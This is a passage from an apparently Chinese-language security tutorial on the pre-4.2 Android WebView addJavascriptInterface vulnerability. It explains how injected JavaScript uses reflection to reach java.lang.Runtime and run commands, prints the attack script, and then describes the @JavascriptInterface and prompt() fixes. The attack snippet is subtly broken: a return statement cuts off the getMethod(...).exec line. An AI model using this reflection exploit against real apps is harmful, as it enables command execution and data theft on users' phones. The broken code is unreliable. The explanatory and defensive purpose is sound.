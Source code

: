 **所以，漏洞产生原因是：当JS拿到Android这个对象后，就可以调用这个Android对象中所有的方法，包括系统类（java.lang.Runtime 类），从而进行任意代码执行。**

> 如可以执行命令获取本地设备的SD卡中的文件等信息从而造成信息泄露

具体获取系统类的描述：（结合 Java 反射机制）

- Android中的对象有一公共的方法：getClass() ；
- 该方法可以获取到当前类 类型Class
- 该类有一关键的方法： Class.forName；
- 该方法可以加载一个类（可加载 java.lang.Runtime 类）
- 而该类是可以执行本地命令的

以下是攻击的Js核心代码：



```jsx
function execute(cmdArgs)  
{  
    // 步骤1：遍历 window 对象
    // 目的是为了找到包含 getClass （）的对象
    // 因为Android映射的JS对象也在window中，所以肯定会遍历到
    for (var obj in window) {  
        if ("getClass" in window[obj]) {  

      // 步骤2：利用反射调用forName（）得到Runtime类对象
            alert(obj);          
            return  window[obj].getClass().forName("java.lang.Runtime")  

      // 步骤3：以后，就可以调用静态方法来执行一些命令，比如访问文件的命令
getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  

// 从执行命令后返回的输入流中得到字符串，有很严重暴露隐私的危险。
// 如执行完访问文件的命令之后，就可以得到文件名的信息了。
        }  
    }  
}   
```

- 当一些 APP 通过扫描二维码打开一个外部网页时，攻击者就可以执行这段 js 代码进行漏洞攻击。
- 在微信盛行、扫一扫行为普及的情况下，该漏洞的危险性非常大

### B. 解决方案

#### B1. Android 4.2版本之后

Google 在Android 4.2 版本中规定对被调用的函数以 `@JavascriptInterface`进行注解从而避免漏洞攻击

#### B2. Android 4.2版本之前

在Android 4.2版本之前采用**拦截prompt（）**进行漏洞修复。
具体步骤如下：

- 继承 WebView ，重写 `addJavascriptInterface` 方法，然后在内部自己维护一个对象映射关系的 Map；

> 将需要添加的 JS 接口放入该Map中
